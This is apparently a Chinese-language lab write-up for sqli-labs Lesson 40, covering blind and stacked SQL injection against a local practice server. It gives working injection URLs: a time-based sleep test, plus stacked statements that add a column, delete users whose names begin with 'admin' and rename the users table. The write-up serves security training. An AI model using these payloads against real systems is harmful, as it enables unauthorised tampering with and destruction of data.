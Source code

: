 ```yaml
---
title: sqli-labs lession-40 GET盲注-堆叠注入-字符型
date: 2018-10-19 10:22:41
tags: [sqli-labs]
categories: sql注入
---
```


# sqli-labs lession-40 GET盲注-堆叠注入-字符型

---

## 分析

这一课只是是盲注的堆叠注入，并且闭合方式为`')`。

`http://192.168.75.132/sql/Less-40/?id=1') and if(1,sleep(10),null)%23`

![001](/img/sql/Lesson-40/001.png)

## 增

在password字段后添加status字段

``http://192.168.75.132/sql/Less-40/?id=1');ALTER TABLE `security`.`users` 
ADD COLUMN `status` tinyint(1) NOT NULL AFTER `password`;%23``

![002](/img/sql/Lesson-40/002.png)

![003](/img/sql/Lesson-40/003.png)

## 删

删除以admin开头的用户。

`http://192.168.75.132/sql/Less-40/?id=1');DELETE from users  where username like 'admin%';%23`

![004](/img/sql/Lesson-40/004.png)

## 改

`http://192.168.75.132/sql/Less-40/?id=1');alter TABLE users rename to newusrs;%23`

![005](/img/sql/Lesson-40/005.png)

![006](/img/sql/Lesson-40/006.png)


